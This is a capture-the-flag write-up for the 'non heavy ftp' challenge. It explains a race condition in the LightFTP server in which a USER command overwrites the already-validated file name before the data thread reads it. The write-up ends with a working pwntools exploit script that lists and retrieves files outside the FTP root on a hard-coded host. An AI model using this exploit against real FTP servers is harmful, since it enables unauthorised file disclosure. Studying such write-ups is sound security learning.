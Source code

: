 # non heavy ftp

We are given read-only access to a [LightFTP](https://github.com/hfiref0x/LightFTP) instance configured to only allow access to `/server/data/`. The flag, however, is at `/flag.<some unknown uuid>`. We, therefore, need to find a way to escape `/server/data/` when listing and retrieving files.

LightFTP implements file operations such as LIST and RETR as follows
1. Parsse the command
2. Normalize the file name (i.e. remove any `..`) and prefix it with the FTP root.
3. Write the filename to the control connection's `context->FileName`.
4. Check that the file exists and is of the right type.
5. Launch a thread for the data connection that
    1. Establishes the connection. For passive mode, this means waiting for the client to connect.
    2. Reads the filename from the control connection's `context->FileName`.
    3. Performs the file operation.
    4. Sends the response to the client.

Since LightFTP only validates login credentials once we provide the password, it needs to store the username provided by the USER command somewhere until we send the PASS command. It does so in the control connection's `context->FileName`. We can, therefore, set the `FileName` to a nearly arbitrary value between it being set to a known safe value and it actually being read in the data connection's thread.

```
from pwn import *

def run(fake, file):
    host = "47.89.253.219"
    r = connect(host, 2121)
    r.sendlineafter("ready\r\n", "USER anonymous\r")
    r.sendlineafter("required\r\n", "PASS any-password-will-be-accepted\r")
    r.sendlineafter("proceed.\r\n", "PASV\r")
    port = r.readlineS()
    port = port.split("(")[1].split(")")[0].split(",")
    port = int(port[-2])*256+int(port[-1])
    r.sendline(fake + "\r")
    r.sendlineafter("connection.\r\n", f"USER {file}\r")
    return connect(host, port).readallS()

path = [x for x in run("LIST", "/").split() if x.startswith("flag.")][0]
print(run("RETR hello.txt", f"/{path}"))
```